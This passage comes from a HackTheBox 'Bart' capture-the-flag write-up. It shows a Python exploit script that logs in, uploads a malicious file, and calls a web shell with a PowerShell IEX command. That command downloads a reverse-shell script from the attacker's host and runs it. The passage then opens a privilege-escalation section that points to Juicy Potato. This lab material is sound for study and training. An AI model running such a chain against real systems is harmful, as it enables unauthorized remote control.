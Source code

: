 ```py
def getRev(rhost,lhost):
	print("[+] Now, let's get the reverse shell! [+]")
	url = "http://internal-01.%s:80/log/cmd.php" %rhost
	headers = {"Content-Type": "application/x-www-form-urlencoded"}
	data = {"cmd": "powershell IEX(New-Object Net.WebClient).downloadString('http://%s/Invoke-PowerShellTcp.ps1')" %lhost}
	r.post(url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-u', '--username', help='Username to target', required=True)
    parser.add_argument('-p', '--password', help='Password to log on the app', required=True)
    parser.add_argument('-port', '--port', help='Port to receive the reverse shell', required=True)
    parser.add_argument('-ip', '--ip', help='IP to receive the reverse shell', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    user = args.username
    password = args.password
    lport = args.port
    lhost = args.ip
    
    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Set up the web server
    webServer()
    # Let's mount the payload
    mountPayload(lhost,lport)
    # Let's log in
    login(rhost,user,password)
    # Let's upload the payload
    uploadMalicious(rhost)
    # Let's call the reverse shell
    getRev(rhost,lhost)
    
if __name__ == '__main__':
    main()
```

# Privilege Escalation

Now, let's escalate privilege

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-06-HackTheBox-Bart/2021-09-06-HackTheBox-Bart%2008:40:01.png)

`https://ohpe.it/juicy-potato/`
